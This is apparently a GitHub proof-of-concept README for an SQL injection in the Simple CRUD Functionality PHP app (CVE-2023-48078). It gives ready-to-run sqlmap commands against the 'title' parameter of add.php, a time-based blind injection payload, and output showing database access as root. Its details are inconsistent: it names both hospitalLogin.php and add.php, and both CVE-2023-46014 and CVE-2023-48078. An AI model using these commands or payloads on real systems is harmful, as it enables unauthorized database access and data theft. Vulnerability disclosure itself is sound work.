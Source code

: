 
# Simple-CRUD-Functionality-SQLi-POC - CVE-2023-48078
+ Exploit Author: Hüseyin KAVUNCU
# Vendor Homepage
+ https://code-projects.org/simple-crud-functionality-in-php-with-source-code
# Software Link
+ https://download.code-projects.org/details/8e863682-a839-4645-94e0-ae769c83635d
# Overview
+ Simple CRUD Functionality SQLi POC is susceptible to a significant security vulnerability that arises from insufficient protection on the 'title' parameters in the hospitalLogin.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.
# Vulnerability Details
+ CVE ID: CVE-2023-46014
+ Affected Version: Simple CRUD Functionality V1.0
+ Vulnerable File: /add.php
+ Parameter Names: title
+ Attack Type: Local
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48078
+ https://nvd.nist.gov/vuln/detail/CVE-2023-48078
# Description
+ The lack of proper input validation and sanitization on the 'title' parameters allows an attacker to craft SQL injection queries, gaining unauthorized access to the database.


# Proof of Concept (PoC) : 
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud'`

```
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---
```
+ `sqlmap -u 'http://localhost/CRUD-Operation/add.php' -p 'title' --data="title=test&descr=test&sub=" --risk=3 --level=3 --method='POST' -D 'crud' -T 'notes' --is-dba --current-user`

```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: title (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: title=test' RLIKE SLEEP(5) AND 'FxIv'='FxIv&descr=test&sub=
---

root@localhost
current user: 'root@localhost'
```
![image](https://github.com/esasadam06/Simple-CRUD-Functionality-SQLi-POC/assets/48632551/f1ce31be-d8dd-408b-87c1-a37d6cd76448)
